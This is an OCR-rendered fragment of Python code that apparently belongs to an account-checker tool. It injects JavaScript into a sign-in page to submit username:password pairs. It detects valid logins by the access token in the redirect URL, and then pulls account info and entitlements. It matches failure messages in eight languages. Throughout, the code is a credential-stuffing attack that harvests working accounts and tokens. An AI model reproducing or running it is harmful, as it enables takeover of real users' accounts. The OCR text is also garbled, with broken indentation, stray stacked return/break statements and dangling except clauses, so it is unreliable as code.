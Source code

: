                                                     js_code = f'\n                    (function() {\n                        function setNativeValue(element, value) {\n                            let lastValue = element.value;\n                            element.value = value;\n                            let event = new Event(\'input\', { bubbles: true });\n                            event.simulated = true;\n                            let tracker = element._valueTracker;\n                            if (tracker) {\n                                tracker.setValue(lastValue);\n                            }\n                            element.dispatchEvent(event);\n                        }\n                        let usernameInput = document.querySelector(\'input[name=\"username\"]\');\n                        let passwordInput = document.querySelector(\'input[name=\"password\"]\');\n                        let submitButton = document.querySelector(\'button[data-testid=\"btn-signin-submit\"]\');\n                        if (usernameInput && passwordInput && submitButton) {\n                            setNativeValue(usernameInput, \'{username}\');\n                            setNativeValue(passwordInput, \'{password}\');\n                            setTimeout(() => submitButton.click(), 500);\n                            return {success: true};\n                        }\n                        return {success: false};\n                    })();\n                    '
                                                    result = window.evaluate_js(js_code)
                                                    if not result.get('success', False):
                                                        print(f'❌ Failed to submit form for {username}:{password}')
                                                        self.safe_close(window)
                                                            return
                                                            break
                                                        time.sleep(2)
                                                        current_url = window.get_current_url()
                                                        parsed_url = urllib.parse.urlparse(current_url)
                                                        fragment = urllib.parse.parse_qs(parsed_url.fragment)
                                                        if 'access_token' in fragment:
                                                            access_token = fragment['access_token'][0]
                                                            if not handled['done']:
                                                                print(f'✅ Success! {username}:{password} → Token: {access_token[:15]}...')
                                                                handled['done'] = True
                                                                account_info = self.get_account_info_and_entitlements(access_token, username, password)
                                                                if account_info:
                                                                    self.result_signal.emit(account_info)
                                                            self.safe_close(window)
                                                                return
                                                                break
                                                                        html = window.evaluate_js('document.documentElement.outerHTML') or ''
                                                                        error_messages = ['Kullanıcı adın veya şifren yanlış olabilir', 'Your username or password may be incorrect', '用户名或密码可能不正确', 'El nombre de usuario o la contraseña pueden ser incorrectos', 'Le nom d\'utilisateur ou le mot de passe peut être incorrect', 'Der Benutzername oder das Passwort ist möglicherweise falsch', 'Неверное имя пользователя или пароль', 'ユーザー名またはパスワードが間違っている可能性があります']
                                                                        if any((msg in html for msg in error_messages)):
                                                                            if not handled['done']:
                                                                                print(f'❌ Wrong password or username: {username}:{password}')
                                                                                self.update_stats()
                                                                                handled['done'] = True
                                                                            self.safe_close(window)
                                                                                return
                                                                                break
                                                                                            if not handled['done']:
                                                                                                print(f'❌ Timeout or failure for {username}:{password}')
                                                                                                self.update_stats()
                                                                                                handled['done'] = True
                                                                                            self.safe_close(window)
                    except Exception as e:
                            print(f'❌ URL check error for {username}:{password}: {str(e)}')
                                    except Exception as e:
                                            print(f'❌ HTML check error for {username}:{password}: {str(e)}')
                                                            except Exception as e: